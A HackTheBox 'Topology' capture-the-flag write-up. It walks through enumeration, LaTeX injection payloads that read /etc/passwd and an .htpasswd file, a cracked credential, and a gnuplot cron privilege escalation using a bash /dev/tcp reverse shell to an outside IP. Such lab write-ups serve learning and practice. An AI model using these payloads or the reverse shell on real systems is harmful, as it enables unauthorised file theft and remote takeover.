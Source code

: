 ```yaml
---
title: HTB | Topology - Notes
date: 2023-07-2 14:00:00 -500
categories: [HTB, write-ups]
tags: [htb,red-team,ctf]
img_path: /assets/img/topology
---
```



## Nmap Results

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 14:32 PDT
Nmap scan report for 10.10.11.217
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 TLD = topology.htb

Found: http://topology.htb/images/

![1](1.png)


## Gobuster:
```
 gobuster dir --url http://topology.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
```

![GoBuster Resaults](Pasted image 20230611163846.png)
![Add Latex Domain to hosts](Pasted image 20230611145813.png)

## latex.topology.htb

Found a very interesting target: [http://latex.topology.htb/equation.php](http://latex.topology.htb/equation.php)

Interesting URL from the Latex Generator
`http://latex.topology.htb/equation.php?eqn=%5Cfrac%7Bx%2B5%7D%7By-3%7D&submit=`

![Desktop](Pasted image 20230611153638.png)


**pdfTeX, Version 3.14159265**

Found the payload from here:[https://0day.work/hacking-with-latex/](https://0day.work/hacking-with-latex/)


The Following command will create files in /tempfiles
```
\newwrite\outfile, \openout\outfile=test2.php test
```
![writing to temp file example](Pasted image 20230618144255.png)

A `,` will concatenate commands allowing them to run. Unfortunatly Were unable to write to any of the files so we went looking for alternative path. We discovered that Math mode is enabled -> `$` excapes the special chars

We found that the following command will display full text of files as a generated pdf

`$\lstinputlisting{/etc/passwd}$`

![RCE](Pasted image 20230618155313.png)

**vdaisley - user /home/vdaisley**

Since dev.topology is protected by a htaccess file, I checked the config for the default sites: `/etc/apache2/sites-available/000-default.conf`

![default-sites](Pasted image 20230618155910.png)

The htaccess file was not being stored in `/etc/apache2/.htaccess` but instead was located in: `/var/ww/dev/`

`$\lstinputlisting{/var/www/dev/.htpasswd}$`

![htaccess](Pasted image 20230618155953.png)

Password is being stored in a Apache MD5 salt

## Hashcat - User Level Access:
![hascat](Pasted image 20230618161158.png)

`$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20`
* un: vdaisley
* pw: calculus20

Got access to the dev site, attempted SSH and we were in:

![ssh](Pasted image 20230618173325.png)

## Privilage Escalation

Ended up finding the *root.txt* by running **pspy65** and found a cron job that would run any file name with the .plt

- started a webserver in the tools dir: ~/tools

![](Pasted image 20230618171543.png)

- used wget to copy over and run pspy65:
![](Pasted image 20230618172326.png)

![](Pasted image 20230618172427.png)

Interesting command running on cron: 

![](Pasted image 20230618172451.png)

seems to want to run any file with the .plt extension from the dir: /opt/gnuplot

We have wright permissions!

![](Pasted image 20230618172532.png)

Created a .plt that included the following reverse shell

```
system "bash -c '/bin/bash -i >& /dev/tcp/10.10.14.94/9001 0>&1'"
```

- had to include bash -c '/bin/bash to get it to run

Fired up NetCat and waited
![](Pasted image 20230618173412.png)

![](Pasted image 20230618173436.png)
